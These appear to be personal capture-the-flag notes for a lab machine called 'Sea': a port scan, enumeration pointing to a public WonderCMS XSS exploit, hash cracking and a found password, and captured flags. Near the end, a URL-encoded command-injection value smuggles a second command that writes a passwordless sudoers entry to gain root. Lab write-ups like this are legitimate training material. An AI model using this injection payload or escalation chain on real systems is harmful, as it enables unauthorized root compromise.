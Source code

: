 ### Scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Enum
80 - Apache 2.4.41
	Contact.php potential?
	Very thorough with dir enum. README.enum
	WonderCMS Bike Theme 3.2.0 - XSS https://github.com/insomnia-jacob/CVE-2023-41425.git
	Validate main index login
	break down how works
	Once done, use exploit
	
### Initial Access
stable shell
root around www data and dump js database
we get hash. for whatever the fuck reason, remove backslashes and crack with john.
login to amay ssh with password `mychemicalromance`
USER:59988bcea1fb845cc8c4eac8acd962cb


serve linpeas cuz all the shit gotdamn locked

### Privilege Escalation
netstat and/or linpeas
make note of 8080, or http-alt. must be web service
port forward `ssh -v -N -L 8888:localhost:8080 amay@sea.htb`
login with same creds
proxy thru burp to play with file analysis tool. Information leak here
Command Injection![Image](/assets/Screenshot 2024-10-08 at 11.17.26 AM.png)
Lets give our user root priv `/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#`
success![Image](/assets/Screenshot 2024-10-08 at 11.19.23 AM.png)
sudo -i to upgrade shell!
Root:62abbfcbb2ade98a7e550bdaf9b839c5
